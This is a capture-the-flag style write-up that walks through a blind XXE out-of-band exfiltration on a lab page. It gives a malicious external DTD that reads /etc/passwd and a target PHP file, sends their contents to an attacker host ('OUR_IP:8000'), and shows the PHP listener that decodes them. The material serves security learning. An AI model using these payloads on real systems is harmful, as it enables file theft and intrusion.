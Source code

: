 # Blind Data Exfiltration

### Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.



**Step 1** - Setup the attack machine:

* Create a file called **xxe.dtd** to be used:
  * {% code overflow="wrap" %}
    ```xml
    <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
    <!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
    ```
    {% endcode %}
* Create a PHP file to automatically decode the base64 string:
  * ```php
    <?php
    if(isset($_GET['content'])){
        error_log("\n\n" . base64_decode($_GET['content']));
    }
    ?>
    ```
* Start a PHP server:
  * ```bash
    php -S 0.0.0.0:8000
    ```

**Step 2** - Setup the attack machine:

* Add the payload to the POST Request
  *   ```xml
      <!DOCTYPE email [ 
        <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
        %remote;
        %oob;
      ]>
      ```


  *

      <figure><img src="../../../.gitbook/assets/image (250).png" alt=""><figcaption></figcaption></figure>
* Test the Payload
  *

      <figure><img src="../../../.gitbook/assets/image (251).png" alt=""><figcaption></figcaption></figure>

As we can see our payload got sucessfully executed, and we manage to get the `/etc/passwd` content.

**Step 3** - Change the content of the **xxe.dtd** file:

* Get the 327a6c4304ad5938eaf0efb6cc3e53dc.php content
  *   {% code overflow="wrap" %}
      ```xml
      <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
      <!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
      ```
      {% endcode %}


* Send the POST Request on Burp Suite
  *

      <figure><img src="../../../.gitbook/assets/image (252).png" alt=""><figcaption></figcaption></figure>

And we got the flag!







